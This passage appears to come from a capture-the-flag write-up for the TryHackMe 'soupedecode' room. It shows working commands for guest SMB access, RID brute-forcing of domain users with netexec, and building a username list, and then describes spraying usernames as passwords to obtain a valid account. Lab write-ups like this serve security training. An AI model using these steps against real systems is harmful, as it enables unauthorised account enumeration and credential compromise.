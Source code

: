 Results revealed IPC$ share is readable with these credentials, so I tried to connect to it via smbclient, but there was nothing present on that share.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ smbclient '//10.201.74.77/IPC$' -U 'guest'
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Next I tried to brute force user's rid via netexec.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.74.77 -u 'guest' -p '' --rid-brute > users-messed-list.txt 
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we got too many users from rid brute-force, now we can simply extract only username from this messed up list for further enumeration.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ cut -d'\' -f2 users-messed-list.txt | cut -d' ' -f1 > formatted-users-list.txt
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

***

### Access as ybob317 and User flag

I began by enumerating SMB shares on the target domain using the `nxc smb` tool with a list of usernames (reused as passwords). Instead of brute-forcing, we only tested exact username-password pairs and continued the enumeration even after discovering valid credentials. During this process, I identified valid credentials for **ybob317**.
